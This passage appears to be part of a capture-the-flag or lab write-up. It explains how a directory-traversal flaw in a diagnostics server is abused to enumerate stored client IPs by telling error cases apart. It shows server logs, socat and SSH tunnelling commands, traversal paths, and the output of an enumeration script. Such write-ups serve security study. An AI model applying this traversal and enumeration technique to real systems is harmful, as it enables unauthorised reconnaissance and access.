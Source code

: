 ```
```

when trying to use the directory traversal to reach a directory for an IP that shouldn't have ever connected, I get `no such file or directory`
```
{diagserver} 2023/11/04 19:14:50.762860 Starting connection timer...
{diagserver} 2023/11/04 19:14:50.763007 received StatusUpdate with CommandResponse
{diagserver} 2023/11/04 19:14:50.763052 Error storing CommandResponse to /diagnostics/var/logs/commands/by-ip/64/7F/00/02/../01/aaaaaaaaaaaaaaaaaaa.json: open /diagnostics/var/logs/commands/by-ip/64/7F/00/02/../01/aaaaaaaaaaaaaaaaaaa.json: no such file or directory
{diagserver} 2023/11/04 19:14:50.763062 HTTP/1.1 500 Internal Server Error
{diagserver} 2023/11/04 19:14:50.763067 Content-Length: 0
{diagserver} 2023/11/04 19:14:50.763071 server to client body:
{diagserver} 2023/11/04 19:14:51.000522 EOF
```


so long as differentiating between these two error cases and the one success case is possible (by reading the output of `diagserver` it was), that is enough information to enumerate the directory structure of the server. Because I also know the network and cidr for the hosts I am looking for, that also makes the number of IP addresses that I need to iterate much more manageable.

I decided to go with a depth first search using `pwntools` `process` class to start and monitor a `socat` process:
```
socat tcp-listen:50505,reuseaddr,fork exec:'ssh -o "IdentitiesOnly=yes" -i ./id_ed25519 -p 7999 nonroot_user@localhost'
```

set the jump server up again
```
ssh -o "IdentitiesOnly=yes" -i ~/.ssh/jumpbox.key -L 0.0.0.0:7999:100.90.12.106:22 user@external-support.bluehorizonmobile.com
```

and by using `requests.session` to share the session, I also avoided having to fully restart the `nonroot_user` ssh session too often (which would have taken avery long time to fully reconnect every time).
```
╰─$ ./enumerate_ips.py
[+] Starting local process '/usr/bin/socat': pid 2399544
[+] found a new octet, trying to guess .(100)
[+] found a new octet, trying to guess 100.(67)
[+] found a new octet, trying to guess 100.67.(25)
[+] wrote to path! ../../../../64/43/19/E7/a
[+] found a full IP 100.67.25.231
[*] Done trying to guess 100.67.25
[*] Done trying to guess 100.67
[+] found a new octet, trying to guess 100.(69)
[+] found a new octet, trying to guess 100.69.(183)
[+] wrote to path! ../../../../64/45/B7/38/a
[+] found a full IP 100.69.183.56
[*] Done trying to guess 100.69.183
[*] Done trying to guess 100.69
[*] Done trying to guess 100
[*] Done trying to guess
[+] found ip 100.67.25.231
[+] found ip 100.69.183.56
[*] Stopped process '/usr/bin/socat' (pid 2399544)
```
